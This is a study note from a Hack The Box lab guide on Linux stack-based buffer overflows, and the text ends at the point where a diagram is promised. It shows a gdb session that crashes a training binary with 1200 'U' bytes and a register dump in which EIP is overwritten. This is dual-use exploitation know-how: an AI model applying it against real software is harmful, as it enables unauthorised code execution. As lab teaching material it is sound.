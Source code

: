 ```yaml
---
title: "Take Control of EIP"
tags:
  - cs/hacking
  - cs/hacking/htb
  - cs/hacking/stack-overflow
programming-languagues:
created: 2022-07-12
---
```

This is part of a guide that you can find [here](notes/hacking/htb-stack-based-overflow-linux.md).

We need to get the **instruction pointer** (**EIP**) under control so we can tell it to which address to jump. So it should point to some **shellcode** for example.

We first check for overflow:

```bash
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

If we insert 1200 "`U`"s (hex "`55`") as input, we can see from the register information that we have overwritten the `EIP`. As far as we know, the `EIP` points to the next instruction to be executed.

```
(gdb) info registers 

eax            0x11
ecx            0xffffd6c0-10560
edx            0xffffd06f-12177
ebx            0x555555551431655765
esp            0xffffcfd00xffffcfd0
ebp            0x555555550x55555555# <---- EBP overwritten
esi            0xf7fb5000-134524928
edi            0x00
eip            0x555555550x55555555# <---- EIP overwritten
eflags         0x10286[ PF SF IF RF ]
cs             0x2335
ss             0x2b43
ds             0x2b43
es             0x2b43
fs             0x00
gs             0x6399
```

If we want to imagine the process visually, then the process looks something like this:
